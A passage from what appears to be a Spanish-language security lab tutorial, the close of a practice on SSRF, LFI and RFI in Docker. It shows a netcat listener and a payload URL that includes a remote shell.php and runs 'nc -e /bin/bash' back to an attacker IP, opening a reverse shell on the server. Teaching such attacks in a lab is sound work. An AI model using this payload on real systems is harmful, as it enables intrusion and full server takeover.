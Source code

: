 ## **📌 6.1: Conseguir una Shell Remota**

Si tenemos ejecución de comandos, podemos abrir una **shell reversa** con Netcat.

En **Kali Linux**, iniciamos un listener:

```bash
nc -lvnp 4444
```

Ejecutamos el siguiente payload en `file.php`:

```bash
http://localhost/file.php?file=http://192.168.1.100:8080/shell.php&cmd=nc -e /bin/bash 192.168.1.100 4444
```

Si la conexión se establece, tenemos **control total del servidor**. 🎯

# **🔹 Conclusión**

Esta práctica permite aprender y explotar **SSRF, LFI y RFI**, usando **Docker y herramientas de Kali Linux**.

Hemos demostrado cómo detectar vulnerabilidades con **Gobuster y wfuzz**, y cómo explotarlas usando **Burp Suite y Netcat**. 🚀



![M2](https://github.com/Grandote58/CloudSafeGuard/blob/main/Recursos/Recurso%203%402Menbrete2.png)
